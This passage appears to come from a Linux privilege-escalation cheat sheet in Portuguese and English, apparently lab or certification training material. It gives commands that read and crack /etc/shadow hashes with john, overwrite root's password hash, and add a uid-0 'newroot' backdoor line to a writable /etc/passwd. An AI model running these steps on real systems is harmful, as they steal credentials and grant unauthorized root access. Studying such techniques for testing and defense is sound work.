 <div style="page-break-after: always;"></div>

## 4. Weak File Permissions

### 4.1. Weak File Permissions - If readable /etc/shadow...

```bash
ls -l /etc/shadow
cat /etc/shadow
kali@kali: > john --wordlist=/usr/share/wordlists/rockyou.txt hash
sudo su
```

---

### 4.2. Weak File Permissions - If writable /etc/shadow

```bash
ls -l /etc/shadow
mkpasswd -m sha-512 password123  # Apenas apresenta um hash referente á password123
nano /etc/shadow  # substituir hash do root pela nossa nova hash, e gravar (Ctrl+o, Enter)
su root
```

---

### 4.3. Weak File Permissions - If writable /etc/passwd

O arquivo /etc/passwd contém informações sobre contas de usuário. É legível por todos, mas normalmente só pode ser escrito pelo usuário root. Historicamente, o arquivo /etc/passwd continha hashes de senha de usuário, e algumas versões do Linux ainda permitem que hashes de senha sejam armazenados lá.

```bash
ls -l /etc/passwd  # Verificamos se o ficheiro pode ser escrito
openssl passwd novaPasswordAqui
nano /etc/passwd  # (substituindo o "x") colocar nova hash, e gravar (Ctrl+o, Enter)
su root
```

---

#### Alternativa

-   copie a linha do usuário root e anexe-a ao final do arquivo, alterando _root_ para _newroot_, e colocando o hash no respectivo lugar...

```bash
# newroot:qTC1yraDLAqfc:0:0:root:/root:/bin/bash     => pass:test
su newroot
```

<div style="page-break-after: always;"></div>

## 5. Sudo - Shell Escape Sequences
